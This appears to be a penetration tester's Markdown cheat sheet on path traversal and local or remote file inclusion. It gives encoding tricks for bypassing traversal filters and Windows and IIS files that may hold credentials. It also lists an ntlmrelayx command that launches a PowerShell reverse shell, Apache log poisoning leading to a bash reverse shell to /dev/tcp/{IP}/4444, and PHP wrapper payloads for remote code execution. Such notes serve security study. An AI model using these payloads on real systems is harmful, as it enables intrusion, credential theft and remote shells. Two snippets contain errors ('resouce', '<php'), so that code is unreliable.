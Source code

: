 ### Path Traversal

**Path Traversal with Other Returned Content Types**
- Sometimes the app will return something like `/etc/passwd` in `image/jpeg` format
  - Firefox does NOT like this and will not show the contents of the image, instead displaying an error
    - Viewing the network request has a similar result
  - Thus, must be viewed via something showing the raw response (like burp or curl)

**Bypassing traversal defenses**
- Try using absolute paths
- Try using `....//` if `../` is stripped
- Try encoding the data for forms (which often automatically strip the attempts):
  - `%2f` for `/` and `%2e` for `.` 
  - `%252f` for `%2f` and `%252e` for `%2e` (double encoded)
- Alternative encodings may also work
  - `..%c0%af` is `..`, `..%ef%bc%8f` is `.. ／ `

**Windows Directory Traversal**
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

**File Inclusion**
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include:
	- **/var/www/html/backup.php**
	- **/opt/admin.bak.php**
	- **/opt/install.txt** (or **C:\\Users\\install.txt**)
	- **/opt/passwords**
